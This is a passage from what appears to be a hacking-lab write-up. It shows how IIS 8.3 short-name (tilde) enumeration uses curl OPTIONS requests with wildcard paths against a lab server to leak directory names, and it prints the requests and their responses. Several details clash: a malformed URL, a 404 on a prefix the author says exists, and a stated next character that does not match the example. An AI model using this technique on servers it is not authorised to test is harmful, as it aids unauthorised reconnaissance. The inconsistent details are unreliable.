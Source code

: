 

This gives a pretty clear picture of the directories on the server. One
thing that jumped out is the two directories in `/dev`, both of which
look like md5hashes. Some quick guessing shows that they are actually
md5 hashes of the two creators,
`md5(mrb3n) = 304c0c90fbc6520610abbf378e2339d1` and
`md5(eks) = dca66d38fd916317687e1390a420c3fc`.

### IIS Short Names

The other trick needed here is to use a trick to take advantage of
Windows short names, which are referred to as the 8.3 file naming scheme
because it limits each file name to eight characters, a dot, and then a
three character extension. There was a [really interesting
paper](https://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf)
that looks at how IIS handles 8.3 file names in earlier versions of IIS
and .NET. The trick is to look at how the server responds to 8.3 names
with wildcards, which it seems to process when `~` is in the path.

Different servers may require different HTTP request methods to find the
difference. This server doesn't show the vulnerability with a GET
request, but *does* show it with an OPTIONS request. For example, I know
that there's a folder named `templates` in the root directory from
`gobuster`. When I make an OPTIONS request to
`http://10.13.38/11/t*~1*/.aspx`, it returns 404. But when I try
`http://10.13.38/11/c*~1*/.aspx`, it returns 200:



    root@kali# curl -s -I -X OPTIONS 'http://10.13.38.11/c*~1*/.aspx'
    HTTP/1.1 200 OK
    Allow: OPTIONS, TRACE, GET, HEAD, POST
    Server: Microsoft-IIS/10.0
    Public: OPTIONS, TRACE, GET, HEAD, POST
    Date: Thu, 04 Jun 2020 11:25:11 GMT
    Content-Length: 0

    root@kali# curl -s -I -X OPTIONS 'http://10.13.38.11/t*~1*/.aspx'
    HTTP/1.1 404 Not Found
    Content-Type: text.md
    Server: Microsoft-IIS/10.0
    Date: Thu, 04 Jun 2020 11:25:17 GMT
    Content-Length: 1245



Similarly, I can try each character and see the next character is `s`:



    root@kali# curl -s -I -X OPTIONS 'http://10.13.38.11/ta*~1*/.aspx'
    HTTP/1.1 200 OK
    Allow: OPTIONS, TRACE, GET, HEAD, POST
    Server: Microsoft-IIS/10.0
    Public: OPTIONS, TRACE, GET, HEAD, POST
    Date: Thu, 04 Jun 2020 11:27:32 GMT
    Content-Length: 0
